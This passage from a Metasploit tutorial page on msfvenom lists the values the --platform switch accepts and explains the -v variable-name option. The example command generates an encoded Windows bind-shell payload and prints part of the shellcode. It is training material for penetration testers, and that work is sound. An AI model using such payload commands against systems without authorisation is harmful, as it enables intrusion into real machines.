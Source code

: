 #### MSFvenom Platforms

[a11y.text MSFvenom Platforms](https://www.offsec.com/metasploit-unleashed/msfvenom/#msfvenom-platforms)

Here is a list of available platforms one can enter when using the **–platform** switch.

```
Cisco or cisco
OSX or osx
Solaris or solaris
BSD or bsd
OpenBSD or openbsd
hardware
Firefox or firefox
BSDi or bsdi
NetBSD or netbsd
NodeJS or nodejs
FreeBSD or freebsd
Python or python
AIX or aix
JavaScript or javascript
HPUX or hpux
PHP or php
Irix or irix
Unix or unix
Linux or linux
Ruby or ruby
Java or java
Android or android
Netware or netware
Windows or windows
mainframe
multi

```

#### MSFvenom Options and Uses

[a11y.text MSFvenom Options and Uses](https://www.offsec.com/metasploit-unleashed/msfvenom/#msfvenom-options-and-uses)

**msfvenom -v or –var-name**

Usage: -v, –var-name >name>

Specify a custom variable name to use for certain output formats. Assigning a name will change the output’s variable from the default “buf” to whatever word you supplied.

Default output example:

```
root@kali:~# msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
buf = ""
buf += "\xda\xdc\xd9\x74\x24\xf4\x5b\xba\xc5\x5e\xc1\x6a\x29"
...snip...
```

